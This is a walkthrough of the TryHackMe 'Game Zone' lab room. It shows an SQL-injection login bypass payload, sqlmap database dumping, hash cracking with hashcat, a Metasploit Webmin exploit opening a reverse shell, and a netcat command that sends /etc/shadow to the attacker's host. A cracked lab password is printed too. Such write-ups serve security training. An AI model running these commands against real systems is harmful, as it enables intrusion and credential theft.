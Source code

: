 *2021-08-29*

*kimm3*

# Walkthrough: Game Zone
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/gamezone)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.10.58
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-2021082911471756.png)

![indexp80](assets/markdown-img-paste-20210829114612232.png)

Index at port 80.

## Checking for SQLi vulnerabilities
### SQLi login
Using `' or 1=1 -- -` in both username and password field, works and redirects us to the 'portal.php' page.

![success-portal](assets/markdown-img-paste-20210829115339916.png)

### sqlmap on portal page
From here we can try for more sqli vulnerabilities with sqlmap. Copy the request made form a serch in the 'portal.php'(I copied headers and data from firefox).

`sqlmap -r research/requestportal.txt | tee scans/sqlmap-portal`

![sqlm-init](assets/markdown-img-paste-20210829120410558.png)

`sqlmap -r research/requestportal.txt --is-dba --dbs --hostname | tee scans/sqlmap-portal-dbenum`

![sqlm-db](assets/markdown-img-paste-20210829120433842.png)

`sqlmap -r research/requestportal.txt -D db --dump | tee scans/sqlmap-portal-db-dump`

![db-dump](assets/markdown-img-paste-20210829120712573.png)

### Cracking the pass
```
hashid creds/agent47hash
hashcat -a 0 -m 1400 creds/agent47hash sl/Passwords/Leaked-Databases/rockyou.txt
```

![cracked](assets/markdown-img-paste-20210829121212259.png)
## Foothold
SSH with the user and cracked password works.

![ssh-login](assets/markdown-img-paste-20210829121335301.png)

![usertxt](assets/markdown-img-paste-20210829121438703.png)

![sstulpn](assets/markdown-img-paste-20210829121802328.png)

The TCP 10000 didn't show up on the nmap scan, might be blocked form access outside. Use SSH port forwarding to make it visible to our local machine.

`ssh -L 10000:localhost:10000 agent47@10.10.10.58`

This exposes a webmin login page.
![webmin](assets/markdown-img-paste-20210829122531432.png)

![webmin-about](assets/markdown-img-paste-20210829122541197.png)

We can now scan the port with nmap, pointing it to our local machine port 10000.

`sudo nmap localhost -p 10000 -sC -sV -Pn -n -oA scans/nmap-p10000`

![nmap-webmin](assets/markdown-img-paste-20210829122757598.png)

![rce-webmin](assets/markdown-img-paste-20210829122901568.png)

A msf RCE module exists for this version.

![webmin-login](assets/markdown-img-paste-20210829123152674.png)

The agent47 and password works to login.

![descr-cve](assets/markdown-img-paste-20210829123216887.png)
## Privilege Escalation
```
script history/target3
msfconsole
search 2012-2982
use 0
info
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS localhost
set LHOST 10.8.210.115
show payloads
set payload 5
```

Played around with differend payloads, number 5(reverse unix) worked.

![roottxt](assets/markdown-img-paste-20210829124808766.png)
## Post Exploitation
Downloading the shadow file with password hashes.

```
nc -w 3 10.8.210.115 4243 < /etc/shadow
```
